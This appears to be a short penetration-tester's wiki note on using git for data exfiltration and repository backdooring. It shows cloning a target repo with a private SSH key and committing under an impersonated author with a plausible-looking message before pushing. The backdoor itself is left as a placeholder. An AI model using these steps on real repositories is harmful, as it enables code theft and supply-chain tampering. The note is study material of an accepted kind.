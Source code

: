 # Git-filtration

For more regular usage of of `git` see [[GitHub]], some of the same command will be listed here to aid in potential data exfiltration, but also privilege escalation method. For the [[Data-Exfiltration-Defined]] requires a method to Exfiltrate, is also capable of resending back to Infiltrate; for the [[Linux-Privilege-Escalation]] or [[Windows-Privilege-Escalation-Vectors]] methods to work requires both Infiltration method and an execution vector in the context of the laterial or elevated privilege. 

## Exfiltration

```bash
# ssh
GIT_SSH_COMMAND='ssh -i /path/id_rsa' git clone git@$ip:/path/to/vulnGit
```

## Infiltration & Backdooring

```bash
cd vulnGit/
# insert backdooring method here
# Consider impersonation attacking the user and email
git log
git config --global user.name ""
git config --global user.email "user@Nomail.(none)" # Without email
# Don't forget to revert, if required
git add -A 
git commit -m "A message in a git repo that aligns with objectives"
# 
GIT_SSH_COMMAND='ssh -i /path/id_rsa' git push origin master
```